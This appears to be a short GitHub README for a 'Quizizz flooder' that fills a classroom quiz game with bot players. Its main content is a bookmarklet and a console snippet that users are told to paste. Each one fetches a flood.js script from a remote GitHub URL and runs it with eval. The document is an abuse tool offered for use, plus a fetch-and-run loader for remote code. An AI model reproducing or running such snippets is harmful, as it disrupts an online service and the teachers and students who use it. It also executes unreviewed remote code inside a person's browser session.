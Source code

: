 # Flood Quizizz with bots
Bookmarklet
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into bookmark bar and click it
```js
javascript:(function()%7Bfetch(%22https%3A%2F%2Fraw.githubusercontent.com%2Fseanv999%2Fquizizz-flooder%2Fmain%2Fflood.js%22)%0A.then((res)%20%3D%3E%20res.text()%0A.then((t)%20%3D%3E%20eval(t)))%7D)()%3B
```
Console
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into console
```js
fetch("https://raw.githubusercontent.com/seanv999/quizizz-flooder/main/flood.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
![image](https://user-images.githubusercontent.com/79374771/162595454-64e57d15-24de-41a5-a690-1db4ce278f60.png)
Developed by Sean Vonhauger
